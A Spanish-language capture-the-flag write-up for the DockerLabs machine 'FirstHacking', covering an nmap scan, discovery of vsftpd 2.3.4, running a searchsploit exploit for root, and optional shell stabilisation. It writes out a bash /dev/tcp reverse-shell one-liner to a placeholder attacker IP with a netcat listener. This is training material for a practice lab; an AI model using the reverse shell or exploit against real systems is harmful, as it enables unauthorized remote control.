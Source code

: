 # Maquina FirstHacking - DockerLabs.es

![alt text](ImagenesMaquinaFirstHacking/image.png)

Primero, debemos verificar que nuestra máquina esté correctamente desplegada.

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815182136.png)

Realizamos un ping a la máquina para verificar la comunicación y confirmamos que la conexión es exitosa.

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815182222.png)

A continuación, realizamos un escaneo de la IP utilizando Nmap.

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815182332.png)

Observamos que el puerto 21 está abierto. Ahora realizamos un escaneo adicional para detectar, enumerar servicios y versiones.

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815182432.png)

Podemos observar que el puerto 21 está ejecutando el servicio FTP con la versión `vsftpd 2.3.4`. Al investigar esta versión, descubrimos que existen CVEs (Common Vulnerabilities and Exposures) asociadas. Utilizando la herramienta `searchsploit`, encontramos varios exploits que podrían ser aplicables a esta versión del servicio.

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815183432.png)

Podemos utilizar los siguientes comandos para trasladar el exploit a nuestro directorio de trabajo actual de la siguiente manera:

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815183628.png)

A continuación, ejecutamos el exploit de la siguiente manera:

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815183933.png)

¡Ahora tenemos una shell con privilegios de "root"! Para verificarlo, podemos ejecutar el comando `whoami`.

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815184019.png)

Si deseamos trabajar de manera más cómoda, podemos establecer una conexión desde nuestra máquina atacada hacia nuestra máquina atacante utilizando Netcat y, a continuación, aplicar un tratamiento de TTY.

## (Opcional) Trabajar de manera mas cómoda

Esto lo hacemos de la siguiente manera:

Primero, ejecutaremos `echo $SHELL` para verificar qué shell estamos utilizando por defecto. Si el resultado está vacío, escribiremos el comando `bash`. Luego, volveremos a ejecutar `echo $SHELL` y notaremos que ahora el resultado es `/bin/bash`. Es importante realizar este paso porque, de no hacerlo, podrías experimentar un error de sintaxis al intentar lanzar una "shell" hacia la máquina atacante.

Adjunto foto del error:

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815185426.png)

Una vez completado el paso anterior, configuramos nuestra máquina atacante para escuchar con Netcat utilizando el comando `nc -nvlp 4444`. Luego, desde la shell en la máquina víctima, ejecutamos el siguiente comando:

`bash -i >& /dev/tcp/IpMaquinaAtacante/4444 0>&1`

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815185023.png)

## (Opcional) Tratamiento de la TTY

Notamos que, una vez dentro, no podemos utilizar `Ctrl + L`, el comando `clear`, ni otras funciones similares.

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815185554.png)

**Para trabajar de manera mas cómoda haremos lo siguiente:**

Una vez estemos dentro ejecutamos el siguiente comando: `script /dev/null -c bash`

Luego presionamos: `Ctrl + Z` para suspender el proceso

A continuación, escribimos: `stty raw -echo; fg`

Despues ingresamos: `reset`

Cuando se nos pregunte: "Terminal type?" Ingresamos `xterm`.

Finalmente, exportamos las siguientes variables de entorno: `export TERM=xterm` `export SHELL=bash`

Y listo!

